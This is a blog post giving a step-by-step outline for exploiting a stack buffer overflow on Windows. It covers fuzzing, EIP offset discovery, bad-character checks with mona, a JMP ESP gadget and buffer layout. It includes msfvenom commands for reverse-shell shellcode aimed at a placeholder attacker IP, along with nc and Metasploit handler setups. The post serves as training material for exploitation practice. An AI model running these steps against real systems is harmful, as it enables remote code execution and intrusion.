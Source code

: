 ```yaml
---
title: "Buffer Overflow Outline"
layout: post
date: 2019-09-07 12:00
tag: 
- security
- python
headerImage: false
projects: false
hidden: false # don't count this post in blog pagination
description: "Notes on how to perform a buffer overflow, commands I frequently use, and general structure of the attack"
category: blog
author: tony
externalLink: false
---
```

# Disclaimer
This is for educational purposes - do not attack any host you do not own or have explicit permission to work on. You can/likely will face serious punishment. 

# BufferOverflow-Template
This is a set of notes I also have up on GitHub along with source files to help speed up the time it takes me to perform a buffer overflow:
https://github.com/tonydelanuez/BufferOverflow-Helper

(This guide assumes no DEP or ASLR enabled on the host)

## Files:
`fuzz.py`: Simple fuzzer in python to try and crash a program listening on a remote host by sending strings of variable length

`exploit.py`: PoC buffer overflow exploit script

## Exploit Steps:

### Fuzz
Trigger a stack overflow bug by identifying string input and fuzzing the program with different length strings. (See `fuzz.py`)

### Identify EIP
Identify the offset to the saved return pointer by using pattern_create.
`pattern_create.rb -l <Buffer Size>`, substitute the buffer into exploit.py and
trigger another crash. Use `!mona findmsp` to observe ESP and EIP. EIP will point to the address to overrwrite (say, Crash EIP).

### Control EIP
`pattern_offset.rb -l <Buffer Size> -q <Crash EIP>`
This will return the offset at which to place your saved return pointer. You've now got control of EIP.

### Check for bad characters in ESP
Set mona working directory: 
`!mona config -set workingfolder c:\mona\%p`

Create a buffer of all characters to send in ESP, generate this with mona: 
`!mona bytearray -cpb <Possible Bad Characters>`

Run the exploit. 
Compare characters in ESP with mona:

`!mona compare -a esp -f c:\mona\bytearray.bin`

Mona will suggest possible bad characters

### Find a JMP ESP gadget
Use mona to find a gadget such as JMP ESP in the binary that will let us fill EIP with a jump to our malicious code that doesn't contain bad characters:
(Example, bad characters are x00\x09)

`!mona jmp -r esp -cbp "\x00\x09"`
Make sure to reverse this address for little endian machines (x86):
0xDEADBEEF -> \xEF\xBE\xAD\xDE

### Test your JMP
Using your exploit string, jump to a breakpoint in order to not crash the program but verify your jump gadget is working as intended: 

`buf += "A" * offset_return_pointer`
`buf += jmp_esp_gadget`
`buf += "\xCC\xCC\xCC\xCC"`
`buf += "D" * (total_buffer_length - len(buf))`
`buf += "\n"`

This exploit string should trigger a breakpoint if you've successfully jumped to ESP.

### Generate shellcode and give yourself some room
Use Metasploit's metasm_shell.rb (/usr/share/metasploit-framework/tools/exploit/metasm_shell.rb in Kali) to move ESP up the stack and away from shellcode.

`metasm > sub esp,0x10`
`"\x83\xec\x10"`

Place this after your jmp_esp gadget (no need to reverse, this is an instruction).

Generate some shellcode with msfvenom to trigger calc:
`msfvenom -p windows/exec -b <BAD CHARACTERS> -f python --var-name calc_pop CMD=calc.exe EXITFUNC=thread`

When thrown into your exploit, the shellcode generated from the above command should open calc.exe.

Generate some shellcode for a reverse shell:
`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b <BAD CHARACTERS> -f python --var-name rev_shell EXITFUNC=thread`

Set up a listener with nc or metasploits multi/handler: 
`nc -nvlp <ATTACKER_PORT>`

`msfconsole`
`> use exploit multi/handler`
`> payload windows/meterpreter/reverse_tcp`
`> set lhost <ATTACKER IP>`
`> set lport <ATTACKER PORT>`
`> exploit -j`

